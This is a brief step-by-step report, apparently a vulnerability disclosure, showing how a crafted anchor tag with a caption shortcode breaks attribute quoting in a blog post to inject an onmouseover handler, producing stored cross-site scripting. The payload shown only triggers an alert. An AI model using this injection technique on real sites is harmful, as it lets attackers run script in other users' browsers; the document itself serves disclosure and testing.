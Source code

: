# Steps
**Step 1:**
Make a new Post

***Step 2:**
Type the code below into the body of the post 
```
<a href = "[caption code="]></a> <a title = " onmouseover=alert('Hello')">link</a>
```
**Step 3**
A link will appear in the post. Have a user click that link to perform the XSS
